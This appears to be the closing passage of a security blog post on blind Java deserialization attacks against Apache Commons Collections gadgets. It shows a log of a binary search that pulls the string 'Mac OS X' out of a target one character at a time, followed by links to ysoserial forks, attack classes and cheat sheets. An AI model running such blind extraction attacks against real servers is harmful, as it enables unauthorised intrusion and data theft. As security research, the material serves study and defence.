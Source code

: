 ```
--[0006]Length: 000 - 101, mid: 051. y: 0, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLM]                         vs [NOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0006]Length: 051 - 101, mid: 076. y: 0, range: [NOPQRSTUVWXYZ\[\\\]\^_`abcdef]                         vs [ghijklmnopqrstuvwxyz\{\|\}~\s]
--[0006]Length: 076 - 101, mid: 089. y: 0, range: [ghijklmnopqrs]                         vs [tuvwxyz\{\|\}~\s]
--[0006]Length: 089 - 101, mid: 095. y: 0, range: [tuvwxy]                         vs [z\{\|\}~\s]
--[0006]Length: 095 - 101, mid: 098. y: 0, range: [z\{\|]                         vs [\}~\s]
--[0006]Length: 098 - 101, mid: 100. y: 0, range: [\}~]                         vs [\s]
--[6]=✂ ✂
--[7]Range to test: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0007]Length: 000 - 101, mid: 051. y: 0, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLM]                         vs [NOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0007]Length: 051 - 101, mid: 076. y: 1, range: [NOPQRSTUVWXYZ\[\\\]\^_`abcdef]                         vs [ghijklmnopqrstuvwxyz\{\|\}~\s]
--[0007]Length: 051 - 076, mid: 064. y: 1, range: [NOPQRSTUVWXYZ]                         vs [\[\\\]\^_`abcdef]
--[0007]Length: 051 - 064, mid: 058. y: 0, range: [NOPQRST]                         vs [UVWXYZ]
--[0007]Length: 058 - 064, mid: 061. y: 0, range: [UVW]                         vs [XYZ]
--[0007]Length: 061 - 064, mid: 063. y: 1, range: [XY]                         vs [Z]
--[0007]Length: 061 - 063, mid: 062. y: 1, range: [X]                         vs [Y]
--[7]=✂X✂
Extracted string: Mac OS X
```

[Part 1]: https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
[ysoserial]: https://github.com/frohoff/ysoserial
[extended ysoserial]: https://github.com/yolosec/ysoserial
[Deserialize test server]: https://github.com/yolosec/deserialize-server
[Generator.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Generator.java
[Attack.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Attack.java
[GeneratorTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/GeneratorTest.java
[AttackTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/AttackTest.java
[Affected versions]: https://commons.apache.org/proper/commons-collections/security-reports.html#Apache_Commons_Collections_Security_Vulnerabilities
[Java-Deserialization-Cheat-Sheet]: https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
[Understanding ysoserial's CommonsCollections1 exploit]: http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability]: https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#exploitdev

